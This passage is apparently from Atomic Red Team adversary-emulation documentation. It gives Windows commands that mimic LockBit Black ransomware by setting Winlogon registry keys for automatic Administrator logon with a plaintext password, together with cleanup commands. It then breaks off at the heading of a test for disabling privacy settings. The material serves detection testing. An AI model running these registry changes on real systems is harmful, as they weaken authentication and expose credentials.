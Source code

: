 



<br/>
<br/>

## Atomic Test #32 - LockBit Black - Use Registry Editor to turn on automatic logon -cmd
LockBit Black - Use Registry Editor to turn on automatic logon

**Supported Platforms:** Windows


**auto_generated_guid:** 9719d0e1-4fe0-4b2e-9a72-7ad3ee8ddc70






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /t REG_DWORD /d 1 /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /t REG_SZ /d Administrator /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName /t REG_SZ /d contoso.com /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /t REG_SZ /d password1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #33 - LockBit Black - Disable Privacy Settings Experience Using Registry -Powershell
LockBit Black - Disable Privacy Settings Experience Using Registry

**Supported Platforms:** Windows
